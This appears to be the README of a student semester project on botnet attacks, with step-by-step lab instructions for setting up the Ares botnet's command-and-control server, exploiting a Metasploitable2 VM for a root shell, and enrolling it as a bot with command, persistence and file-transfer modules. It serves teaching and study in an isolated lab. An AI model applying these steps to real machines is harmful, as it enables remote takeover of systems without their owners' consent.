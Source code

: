 # 460 Semester Project - Botnet attacks, Mitigation and Analysis

Project files for 460 SP

## Ares Botnet setup
To set up the Ares botnet, do the following:

### Server VM - Kali Linux or Ubuntu Server 16.04
* Make sure *sqlite3* is installed - *sudo apt-get install sqlite3*
  * Also make sure Python >=2.6 is installed
* Download the Ares botnet code - *wget https://github.com/sweetsoftware/Ares/archive/master.zip*
* Unzip the downloaded archive
* Navigate to */Ares/server* and execute *python db_init.py* to create the
SQLite3 database.
* Finally, start the server - *python server.py*
* Navigate to the IP address of the server VM at port 8080 to access the Ares
command interface.  Enter a database password when prompted and login.

### Client -- Metasploitable2 VM
* Using Kali Linux, exploit a vulnerability and obtain a root shell
* Set up the Metasploitable2 VM

  #### Edit the sources file to allow program downloads and updates:
  * *sudo mv /etc/apt/sources.list /etc/apt/sources.list.mv*
  * *sudo nano /etc/apt/sources.list* and add:
    * deb http://old-releases.ubuntu.com/ubuntu/ hardy main restricted universe multiverse
    * deb http://old-releases.ubuntu.com/ubuntu/ hardy-updates main restricted universe multiverse
    * deb http://old-releases.ubuntu.com/ubuntu/ hardy-security main restricted universe multiverse
    * deb http://ppa.launchpad.net/python-dev/ppa/ubuntu hardy main

  #### Fix error about keyserver
  * Issue *sudo apt-get update*.  If there is an error about keys, do:
    * *sudo apt-key adv --keyserver keyserver.ubuntu.com --recv-keys (the key code in the response showing the problem)*
  * Finally, update using *sudo apt-get update*

  #### Install Python 2.6, pip and python-requests
  * Install Python 2.6 - *sudo apt-get install python2.6*
  * Install pip - *sudo apt-get install python-pip*
  * Install requests - *sudo pip install requests*

  #### Join the botnet
  * Download the botnet files - *wget https://github.com/sweetsoftware/Ares/archive/master.zip*
  * Extract the archive and navigate to Ares/agent/python
  * Modify two files:
    * settings.py --- change 'localhost' to the IP of the C&C server (Kali VM)
    * agent.py --- comment out/modify the following lines:
      * *from modules import screenshot*
      * Change the line *MODULES = ['runcmd', 'persistence', 'download', 'upload', 'screenshot']* to *MODULES = ['runcmd', 'persistence', 'download', 'upload']*
      (that is, remove 'screenshot' from the end of the array list.)
  * Note to self: add a step here to step python 2.6 as default
  * Finally, join the botnet by executing *python2.6 server.py*




<!-- ## Update 11/29/2016
* Added files for Ares Python Botnet

## Setting up the server
* chmod +x and use sudo ./setup.sh to run the setup script
* Automatically downloads all necessary packages, modifies file with IP address
of the C&C server and starts the C&C @ port 8080

## Setting up the bots
* setup.sh handles setting the IP address of the C&C server for the bot
* Simply execute python agent.py within the Ares/agent/python/ directory -->
